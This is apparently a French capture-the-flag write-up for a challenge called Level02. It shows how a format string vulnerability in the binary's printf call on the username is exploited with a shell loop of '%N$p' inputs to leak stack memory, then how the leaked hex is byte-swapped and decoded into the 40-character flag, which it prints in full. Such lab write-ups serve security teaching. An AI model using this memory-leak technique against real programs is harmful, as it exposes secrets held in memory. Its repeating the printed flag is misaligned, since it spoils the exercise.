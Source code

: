 # Level02:

Le binaire demande deux chaines en parametres un username et un password.
Le username est utilise dans le printf et on a donc une **String Format Vulnerability**.
J'affiche donc la memoire a l'aide de la commande suivante dans le but de trouver.une chaine de 40 char de long
``for i in {0..40}; do (python -c "print '%' + str($i) + '\$p'") | ./level02 | tr "\n" "&" | awk -F'&' '{print $6}' | awk -F' ' '{print $1}'; done;``

![finaly.png](./finaly.png)
On peut donc en extraire la chaine ci-dessous:
``756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d``
Il faut passer les chaines en **Big Endian** car elle sont en **Little Endian**
``4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348``
On converti la chaine hexadecimal en chaine ascii et on obtient le flag suivant:
``Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H``